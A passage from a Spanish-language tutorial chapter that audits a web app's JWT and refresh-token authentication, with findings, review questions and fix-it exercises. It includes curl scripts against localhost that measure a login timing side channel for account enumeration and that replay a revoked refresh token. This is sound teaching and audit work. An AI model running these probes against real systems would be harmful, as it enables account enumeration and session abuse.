  curl -s -o /dev/null -w "%{time_total}\n" \
    -X POST http://localhost:3000/api/v1/auth/login \
    -H 'Content-Type: application/json' \
    -d '{"email":"noexiste@empresa.com","password":"x"}'
done

echo "Cuenta EXISTENTE, contraseña incorrecta:"
for i in $(seq 1 5); do
  curl -s -o /dev/null -w "%{time_total}\n" \
    -X POST http://localhost:3000/api/v1/auth/login \
    -H 'Content-Type: application/json' \
    -d '{"email":"admin@empresa.com","password":"x"}'
done
```

**Resultado esperado:** el primer grupo alrededor de 0,005-0,015 s; el segundo alrededor de 0,105-0,120 s. **La diferencia es inequívoca**, y con eso un atacante enumera cuentas sin que el mensaje idéntico sirva de nada.

⚠️ **Requiere desactivar temporalmente el limitador o esperar entre tandas**, porque 10 peticiones agotan la cuota.

### Ejemplo 4 — Verificar que la detección de robo no está implementada

```bash
# 1. Login → guardar la cookie
curl -c cookies.txt -X POST http://localhost:3000/api/v1/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"email":"admin@empresa.com","password":"Admin1234!"}'

# 2. Copiar el refresh token de cookies.txt (llamémoslo TOKEN_A)

# 3. Refrescar con TOKEN_A → devuelve TOKEN_B, y revoca A
curl -b cookies.txt -c cookies2.txt -X POST http://localhost:3000/api/v1/auth/refresh

# 4. Reenviar TOKEN_A (ya revocado) — simula el reenvío de un token robado
curl -b cookies.txt -X POST http://localhost:3000/api/v1/auth/refresh
#    → 401 ✅ (correcto)

# 5. 🔴 LA PRUEBA CLAVE: ¿TOKEN_B sigue funcionando?
curl -b cookies2.txt -X POST http://localhost:3000/api/v1/auth/refresh
#    → 200 🔴 SÍ FUNCIONA
```

**Si la detección de robo estuviera implementada, el paso 4 habría revocado TODAS las sesiones y el paso 5 devolvería 401.**

**Verificación desde la base:**

```sql
SELECT id, revoked, expires_at, created_at
  FROM refresh_tokens
 WHERE user_id = 1
 ORDER BY id DESC LIMIT 5;
```

Se verá el token A con `revoked=1` y el token B con `revoked=0` — confirmando que el reenvío de A **no** afectó a B.

### Ejemplo 5 — Medir el crecimiento de `refresh_tokens`

```sql
SELECT
  COUNT(*)                                             AS total,
  SUM(revoked = 1)                                     AS revocados,
  SUM(expires_at < NOW())                              AS vencidos,
  SUM(revoked = 0 AND expires_at > NOW())              AS activos,
  MIN(created_at)                                      AS mas_antiguo
FROM refresh_tokens;
```

💡 **En un sistema en uso, `activos` debería ser un número pequeño (una o dos por usuario conectado) y `revocados` debería crecer sin parar.** Cuando `revocados` supera a `activos` por dos órdenes de magnitud, la falta de limpieza (§8.6.3) empieza a costar.

---

## 8.9. Resumen

1. **Esquema de doble token:** access JWT de 15 minutos en memoria + refresh opaco de 7 días en cookie `httpOnly`. Reparte las debilidades para que ningún ataque único (XSS o CSRF) comprometa la sesión de forma duradera.

2. **El refresh token NO es un JWT** — es aleatorio de 256 bits, y solo se guarda su SHA-256. Eso lo hace **revocable** (un JWT no lo sería) e inútil ante un volcado de la base.

3. **`path: '/api/v1/auth'` en la cookie** es una decisión excelente y subestimada: el refresh token **no viaja** en las 57 peticiones normales.

4. **`sameSite: 'strict'` protege contra CSRF pero impone una restricción de despliegue no documentada:** frontend y backend deben compartir el dominio registrable. Desplegarlos en servicios distintos rompería la renovación de sesión de forma silenciosa.

5. **`toPublicUser` es una lista blanca, no una lista negra.** Agregar un campo sensible a `User` no lo expone automáticamente.

6. **El login usa el mismo mensaje para tres fallos distintos** para prevenir la enumeración de cuentas — y el propio código lo documenta.

7. **La rotación de refresh tokens está implementada:** cada renovación revoca el token usado y emite uno nuevo.

8. **`refresh` es el punto de reconciliación con la realidad:** verifica `isActive` contra la base, y revoca todas las sesiones de un usuario que ya no es válido. Es lo que acota a 15 minutos la ventana del diseño sin estado de `authenticate`.

9. **Siete hallazgos concretos, ordenados por gravedad:**

   | # | Hallazgo | Gravedad |
   |:-:|:--|:--|
   | 1 | 🔴 **La detección de robo de tokens NO está implementada**, pese a que el comentario de `auth.service.ts:75-76` afirma que sí. `findValidByHash` filtra `revoked: false`, así que un token revocado y uno inexistente son indistinguibles. | **Alta** |
   | 2 | 🔴 **Canal lateral de temporización en el login:** ~5 ms si la cuenta no existe vs. ~105 ms si existe. Anula por completo la protección contra enumeración. | **Alta** |
   | 3 | 🔴 **La aserción `as SignOptions['expiresIn']`** convierte un error de tipeo en `ACCESS_TOKEN_TTL` en **tokens que nunca expiran**, sin ningún síntoma. | **Alta** |
   | 4 | 🔴 **Los inicios de sesión no se auditan.** Ni los exitosos ni los fallidos. La auditoría del sistema es ciega para el acceso. | Media |
   | 5 | ⚠️ **Nadie borra los refresh tokens vencidos.** La tabla crece ~32 filas por usuario activo por día, indefinidamente. | Media |
   | 6 | ⚠️ **`revoke` + `issueSession` no están en una transacción.** Un fallo entre ambas deja al usuario sin sesión. | Baja |
   | 7 | ⚠️ **No hay endpoint "cerrar todas las sesiones"**, aunque `revokeAllForUser` ya existe. Especialmente relevante dado el hallazgo #1. | Baja |
   | 8 | ⚠️ `/refresh` y `/logout` **sin limitación de velocidad**: una consulta a la base por intento, sin tope. | Baja |
   | 9 | ⚠️ El esquema de login **no normaliza el email a minúsculas**: funciona solo gracias a la colación de MySQL. | Baja |

---

## 8.10. Preguntas de repaso

1. ¿Por qué el sistema usa dos tokens en vez de uno? ¿Qué propiedad incompatible resuelve cada uno?
2. ¿Por qué el refresh token **no** es un JWT? Dar las dos razones y decir cuál es decisiva.
3. Un atacante logra XSS en la aplicación. ¿Qué puede robar y qué no? ¿Cuánto le dura el acceso en cada caso?
4. ¿Qué hace `path: '/api/v1/auth'` en la cookie? Enumerar los tres beneficios.
5. El frontend se despliega en `app.vercel.app` y el backend en `api.render.com`. ¿Funciona la sesión? ¿Por qué? ¿Cuál es el síntoma exacto?
6. ¿Por qué `res.clearCookie` debe repetir el `path`? ¿Qué pasa si se olvida, y por qué no es catastrófico en este sistema?
7. `toPublicUser` construye un objeto nuevo en vez de borrar campos del original. ¿Qué diferencia hace si mañana se agrega una columna `dni` a `users`?
8. ¿Por qué el login usa el mismo mensaje para "usuario inexistente" y "contraseña incorrecta"? ¿La protección funciona realmente? Justificar.
9. ¿Qué es la rotación de refresh tokens y qué ataque permitiría detectar?
10. Leer el comentario de `auth.service.ts:73-77` y después rastrear el código. ¿Coinciden? Explicar exactamente por qué no, citando líneas.
11. Un administrador desactiva a un operador que tiene sesión abierta. Construir la línea de tiempo hasta que efectivamente pierde el acceso.
12. ¿Qué pasa si `ACCESS_TOKEN_TTL` vale `'quince minutos'`? Rastrear las cuatro consecuencias en cadena.
13. ¿Por qué `revoke(stored.id)` va **antes** de `issueSession(user)` y no al revés? ¿Qué se gana con ese orden dado que no hay transacción?
14. Estimar cuántas filas tendrá `refresh_tokens` después de un año con 10 usuarios activos 8 horas diarias, 250 días al año.

<details>
<summary><strong>Respuestas</strong></summary>

1. Porque "cómodo" y "seguro" son incompatibles en un solo token: uno de vida larga evita reautenticarse pero es peligroso si lo roban; uno de vida corta es seguro pero molesto. **El access token** resuelve la seguridad: viaja constantemente (máxima exposición) pero dura 15 minutos. **El refresh token** resuelve la comodidad: dura 7 días pero casi nunca viaja, está en una cookie inaccesible a JavaScript, y **sí se puede revocar**.

2. **Razón 1 (decisiva): la revocabilidad.** Un JWT se verifica solo con su firma; para invalidarlo antes de tiempo haría falta una lista negra consultada en cada uso, que anula su ventaja. Un valor opaco registrado en la base se revoca con un `UPDATE`. **Razón 2:** solo se guarda el SHA-256, así que un volcado de la base da hashes irreversibles en vez de tokens usables.

3. **Puede robar el access token** (está en una variable JavaScript, accesible desde código inyectado) → **15 minutos de acceso**. **No puede robar el refresh token** (`httpOnly` lo oculta a JavaScript). Lo que **sí** puede hacer es *usarlo* desde la página comprometida (`fetch('/auth/refresh', {credentials:'include'})`) para obtener access tokens nuevos — pero **solo mientras la pestaña esté abierta y comprometida**. No puede exfiltrarlo para usarlo después desde otro lugar. La diferencia entre "secuestro mientras dura la sesión" y "robo por una semana".

4. El navegador envía la cookie **solo** a rutas que empiezan con ese path. **Beneficios:** (a) menos exposición — el refresh token no viaja en las 57 peticiones normales, y cada viaje es una oportunidad de fuga; (b) menos bytes por petición; (c) aislamiento del daño — si un endpoint cualquiera registrara todas las cabeceras, el refresh token no estaría entre ellas.

5. **No funciona.** `vercel.app` y `render.com` son **dominios registrables distintos**, así que la petición es *cross-site* y `sameSite: 'strict'` impide que el navegador envíe la cookie. **El síntoma exacto**: el login funciona (la respuesta establece la cookie), pero recargar la página o esperar 15 minutos expulsa al usuario, **sin ningún error en el servidor** — el servidor simplemente no recibe la cookie y responde 401 correctamente. El diagnóstico es difícil porque nada falla.

6. Porque el navegador identifica una cookie por la terna **(nombre, dominio, path)**. `clearCookie` envía un `Set-Cookie` con vencimiento pasado; si el path no coincide, el navegador considera que es una cookie **distinta**: crea y vence una nueva en `/`, y deja intacta la original. **No es catastrófico** porque el servidor **también** revocó el token en la base (`authService.logout`), así que la cookie superviviente ya no sirve para nada. Defensa en profundidad.

7. **`toPublicUser` es una lista blanca:** construye un objeto con cuatro campos explícitos. Si se agrega `dni` a `users`, **no se expone**; hay que agregarlo a mano si se quiere. Con una lista negra (`delete user.passwordHash`), `dni` **se expondría automáticamente** en la siguiente respuesta. La lista blanca es segura por defecto.

8. Para prevenir la **enumeración de cuentas**: si el mensaje distinguiera, un atacante sabría qué emails existen, obteniendo material para phishing dirigido y pudiendo concentrar la fuerza bruta solo en cuentas reales. **Pero la protección NO funciona realmente**, porque hay un canal lateral de temporización: si el usuario no existe, se sale sin ejecutar `bcrypt.compare` (~5 ms); si existe, se ejecuta (~105 ms). La diferencia de 100 ms es medible y consistente, y revela exactamente lo que el mensaje intenta ocultar.

9. Cada uso del refresh token lo **consume**: se revoca y se emite uno nuevo. Permitiría detectar el **robo de token**: si un token ya revocado reaparece, es porque dos partes lo tenían — el legítimo y el ladrón. La respuesta correcta sería revocar todas las sesiones de ese usuario, expulsando al atacante.

10. **No coinciden.** El comentario dice: *"A replayed (already-revoked) token is treated as theft and revokes every session of the user."* Pero `auth.repository.ts:12` filtra `revoked: false`, así que `findValidByHash` **no encuentra** un token revocado y devuelve `null`. Entonces `auth.service.ts:80-82` lanza el 401 y **la función termina**: la línea 86 (`revokeAllForUser`) **nunca se alcanza** en ese escenario. Solo se ejecuta cuando el token **es válido** pero el usuario está inactivo o borrado. **El código no puede distinguir "revocado" de "inexistente"**, porque la consulta descarta ambos por igual.

11. **t=0**: se desactiva (`isActive=false`). Su access token sigue siendo criptográficamente válido. **t=0 a 15 min**: sigue operando normalmente — `authenticate` no consulta la base. **t≈15 min**: el token expira; el interceptor de Axios detecta el 401 y llama a `/auth/refresh`. **t=15 min + ε**: `refresh` consulta la base, encuentra `!isActive`, ejecuta `revokeAllForUser` y lanza 401. El interceptor no puede reintentar, limpia la sesión, y el usuario es redirigido al login. **Ventana efectiva: hasta 15 minutos.**

12. (a) TypeScript **no protesta**, porque la aserción `as SignOptions['expiresIn']` silencia la incompatibilidad. (b) La librería `ms` no puede parsear el string y devuelve `undefined`. (c) `jsonwebtoken` recibe `expiresIn: undefined` y **emite el token sin el claim `exp`**. (d) `authenticate` lo verifica correctamente —sin `exp` no hay vencimiento que comprobar— así que **todos los access tokens serían permanentes**. Un error de tipeo en una variable de entorno anula la seguridad de vida corta, sin ningún síntoma visible.

13. Porque **sin transacción, hay que elegir cuál fallo es menos grave**. Con el orden actual (revocar → emitir), si falla la emisión el usuario queda **sin sesión válida**: molesto pero seguro, y se resuelve volviendo a iniciar sesión. Con el orden inverso (emitir → revocar), si falla la revocación quedarían **dos refresh tokens válidos** simultáneamente — peor desde el punto de vista de seguridad, porque duplica las sesiones activas sin que nadie lo sepa. **El orden elegido es el correcto dada la ausencia de transacción**, aunque lo ideal sería envolver ambas operaciones.

14. Un access token de 15 minutos significa **4 renovaciones por hora**. Ocho horas → **32 renovaciones**, más 1 login = **33 filas por usuario por día**. Con 10 usuarios: **330 filas diarias**. Por 250 días laborables: **82.500 filas al año**, ninguna borrada. No es un volumen que rompa nada por sí solo, pero crece linealmente para siempre, degrada las consultas sobre `idx_refresh_tokens_user`, y engorda las copias de seguridad sin aportar valor.

</details>

---

## 8.11. Ejercicios propuestos

**Nivel 1 — Observación**

1. Iniciar sesión desde el navegador y examinar en las herramientas de desarrollo (pestaña *Application → Cookies*) las cinco propiedades de `refresh_token`. Confirmar cada una contra `auth.controller.ts:13-19`.
2. Decodificar el access token en jwt.io (sin poner el secreto) y verificar que `exp − iat = 900`.
3. Intentar leer la cookie desde la consola del navegador con `document.cookie`. Confirmar que **no aparece** y explicar por qué.
4. Navegar la aplicación con la pestaña *Network* abierta y verificar que la cookie `refresh_token` **solo** aparece en las peticiones a `/api/v1/auth/*`.

**Nivel 2 — Verificación de seguridad**

5. Reproducir el experimento de temporización del §8.8 (ejemplo 3). Documentar los tiempos y calcular la diferencia media. ¿Es suficiente para enumerar cuentas?
6. Reproducir el experimento del §8.8 (ejemplo 4) y **confirmar que la detección de robo no está implementada**. Verificar también desde la base.
7. Poner `ACCESS_TOKEN_TTL=quince_minutos` en el `.env`, reiniciar, iniciar sesión, y decodificar el token. ¿Tiene `exp`? Confirmar el hallazgo #3.
8. Ejecutar la consulta del §8.8 (ejemplo 5) sobre la base. Iniciar sesión, esperar a que rote el token varias veces, y volver a ejecutarla. Documentar el crecimiento.
9. Ejecutar `grep -rn "auditLog\|auditLogs" backend/src/modules/auth/` y confirmar el hallazgo #4.

**Nivel 3 — Corrección**

10. Corregir el canal lateral de temporización ejecutando bcrypt siempre contra un hash señuelo. Repetir el experimento del ejercicio 5 y verificar que los tiempos ahora son indistinguibles.
11. Implementar la detección de robo de tokens: quitar el filtro `revoked` del repositorio, distinguir los tres casos en el servicio, y verificar con el experimento del ejercicio 6. **Después**, analizar qué pasa si se abren dos pestañas del navegador simultáneamente y proponer la ventana de gracia.
12. Corregir la validación de `ACCESS_TOKEN_TTL` en `env.ts` con una expresión regular y verificar que `quince_minutos` ahora impide arrancar.
13. Agregar auditoría de `LOGIN` y `LOGIN_FAILED`. Resolver el problema de que `audit_logs.user_id` es `NOT NULL` en el caso de un intento fallido con email inexistente.
14. Implementar la limpieza oportunista de tokens vencidos dentro de `issueSession`. Medir cuántas filas borra en una base con datos acumulados.
15. Envolver `revoke` + `issueSession` en una transacción, agregando el parámetro `db: DbClient = prisma` a los métodos de `authRepository` para alinearlos con el resto del proyecto.
16. Agregar `POST /api/v1/auth/logout-all`, reutilizando `revokeAllForUser`. Verificar que cierra la sesión en todos los dispositivos.
17. Agregar limitación de velocidad a `/refresh` y `/logout` con un límite más generoso que el del login, y validación de formato de la cookie para rechazar tokens obviamente inválidos antes de consultar la base.

---

**Anterior:** [Capítulo 7 — Los middlewares](07-backend-middlewares.md) · **Siguiente:** Capítulo 9 — El módulo de usuarios *(pendiente)*
